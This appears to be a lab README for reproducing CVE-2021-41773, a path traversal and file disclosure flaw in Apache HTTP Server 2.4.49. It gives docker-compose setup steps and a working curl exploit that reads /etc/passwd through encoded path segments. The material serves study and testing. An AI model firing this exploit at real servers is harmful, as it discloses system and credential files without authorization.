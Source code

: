 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root.

If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker-compose build
docker-compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

A simple CURL command to reproduce the vulnerability:

```
curl -v --path-as-is http://your-ip:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

The `/etc/passwd` is disclosured successfully:

![](1.png)
